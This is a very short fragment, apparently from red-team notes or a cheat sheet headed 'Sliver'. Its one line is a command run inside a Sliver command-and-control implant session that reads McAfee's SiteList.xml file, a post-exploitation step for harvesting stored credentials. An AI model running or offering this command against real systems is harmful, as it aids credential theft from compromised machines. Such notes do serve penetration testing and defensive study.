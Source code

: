 # Sliver

`sliver (IMPLANT_NAME) > cat "%AllUsersProfile%\Application Data\McAfee\Common Framework\SiteList.xml"`